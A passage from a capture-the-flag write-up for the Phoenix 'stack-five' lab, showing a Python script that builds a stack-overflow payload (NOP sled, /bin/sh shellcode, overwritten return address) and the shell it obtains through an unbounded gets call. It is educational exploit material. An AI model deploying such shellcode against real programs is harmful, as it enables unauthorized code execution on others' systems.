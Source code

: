 ```nasm
ebp = 0x50505050
eip = 0x52525252
eflags = 0x00010282
oeax = 0xffffffff
```

Now, it is pretty easy to modify the script so that some shellcode will be executed.

```python
#!/usr/bin/env python3
import os

nop_sled = b'\x90'*80
shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
nop_padding = b'\x90'*(144-len(nop_sled)-len(shellcode)-4)
return_address = b'\x90\xd3\xff\xff'

os.write(1, nop_sled + shellcode + nop_padding + return_address + b'\n')
```

```shell
$ ./theScript.py > pattern
$ cat pattern - | /opt/phoenix/i486/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
whoami
test
```

## Conclusion

This level introduced a simple shellcoding challenge that was possible thanks to a call to `gets`, which does not restrict the size of bytes to be read, and also a buffer that had a size big enough to contain the shellcode.
